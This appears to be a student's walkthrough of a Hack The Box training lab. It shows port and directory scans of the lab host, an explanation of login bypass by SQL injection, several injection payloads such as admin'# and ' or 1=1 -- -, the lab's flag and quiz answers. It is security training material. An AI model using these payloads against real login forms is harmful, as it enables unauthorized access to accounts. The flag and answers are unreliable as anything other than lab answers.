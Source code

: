 ```
blob:https://app.hackthebox.com/5be081bc-9048-421a-a11f-090c3e6d5944

┌──(kali㉿kali)-[~]
└─$ ping 10.129.221.123
PING 10.129.221.123 (10.129.221.123) 56(84) bytes of data.
64 bytes from 10.129.221.123: icmp_seq=1 ttl=63 time=506 ms
64 bytes from 10.129.221.123: icmp_seq=2 ttl=63 time=500 ms
^C
--- 10.129.221.123 ping statistics ---
3 packets transmitted, 2 received, 33.3333% packet loss, time 2005ms
rtt min/avg/max/mdev = 500.240/503.289/506.338/3.049 ms
                                                                                                                  
┌──(kali㉿kali)-[~]
└─$ rustscan -a 10.129.221.123 --ulimit 5500 -b 65535 -- -A
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[~] Automatically increasing ulimit value to 5500.
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
Open 10.129.221.123:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-01 12:47 EDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:47
Completed NSE at 12:47, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:47
Completed NSE at 12:47, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:47
Completed NSE at 12:47, 0.00s elapsed
Initiating Ping Scan at 12:47
Scanning 10.129.221.123 [2 ports]
Completed Ping Scan at 12:47, 0.45s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 12:47
Completed Parallel DNS resolution of 1 host. at 12:47, 0.05s elapsed
DNS resolution of 1 IPs took 0.05s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 12:47
Scanning 10.129.221.123 [1 port]
Discovered open port 80/tcp on 10.129.221.123
Completed Connect Scan at 12:47, 0.29s elapsed (1 total ports)
Initiating Service scan at 12:47
Scanning 1 service on 10.129.221.123
Completed Service scan at 12:47, 6.69s elapsed (1 service on 1 host)
NSE: Script scanning 10.129.221.123.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:47
Completed NSE at 12:47, 6.01s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:47
Completed NSE at 12:47, 0.77s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:47
Completed NSE at 12:47, 0.00s elapsed
Nmap scan report for 10.129.221.123
Host is up, received syn-ack (0.43s latency).
Scanned at 2022-11-01 12:47:32 EDT for 15s

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-favicon: Unknown favicon MD5: 7D4140C76BF7648531683BFA4F7F8C22
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:47
Completed NSE at 12:47, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:47
Completed NSE at 12:47, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:47
Completed NSE at 12:47, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.16 seconds

┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.129.221.123/ -w /usr/share/wordlists/dirb/common.txt -t 64  
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.221.123/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2022/11/01 13:28:35 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 279]
/.hta                 (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/css                  (Status: 301) [Size: 314] [--> http://10.129.221.123/css/]
/fonts                (Status: 301) [Size: 316] [--> http://10.129.221.123/fonts/]
/images               (Status: 301) [Size: 317] [--> http://10.129.221.123/images/]
/index.php            (Status: 200) [Size: 4896]
/js                   (Status: 301) [Size: 313] [--> http://10.129.221.123/js/]
/server-status        (Status: 403) [Size: 279]
/vendor               (Status: 301) [Size: 317] [--> http://10.129.221.123/vendor/]
Progress: 4614 / 4615 (99.98%)===============================================================
2022/11/01 13:28:57 Finished
===============================================================


the script will now
only search if any entry exists with the username admin . In this case, we got lucky. There is indeed an
account called admin , which will validate our SQL Injection and return the 1 value for the $count variable,
which will be put through the if statement , allowing us to log-in without knowing the password. If there
was no admin account, we could try any other accounts until we found one that existed. ( administrator ,
root , john_doe , etc.) Any valid, existing username would make our SQL Injection work.

username: admin'#   password: a

# comment

SELECT * FROM users WHERE username='admin'#' AND password='a'

admin'-- -
a

' or 1=1 -- -
a

' or 1=1#
a

' or "1"="1"-- -
a

' or "x"="x"#
a


Congratulations!

Your flag is: e3d0796d002a446c0e622226f42e9672
```

What does the acronym SQL stand for? 
*Structured Query Language*

What is one of the most common type of SQL vulnerabilities? 
*SQL injection*

What does PII stand for? 
It's a common term found in user data protection. Use camel case.
*Personally Identifiable Information*

What does the OWASP Top 10 list name the classification for this vulnerability? 
It holds the third place (first place in the previous one) in the OWASP Top 10 list of most commonly met web vulnerabilities. Use the complete classification name.
*A03:2021-Injection* https://owasp.org/www-project-top-ten/

What service and version are running on port 80 of the target? 
*Apache httpd 2.4.38 ((Debian))*

What is the standard port used for the HTTPS protocol? 
*443*

What is one luck-based method of exploiting login pages? 
Remember to add a dash of wordlists!
*brute-forcing*

 What is a folder called in web-application terminology? 
 Whenever I'm a bad employee, I get called to the director's office.
 *directory*

What response code is given for "Not Found" errors? 
*404*

What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains? 
*dir*

 What symbol do we use to comment out parts of the code? 
 *#*

![[Pasted image 20221101123641.png]]

Submit root flag 
*e3d0796d002a446c0e622226f42e9672*


[[Redeemer]]
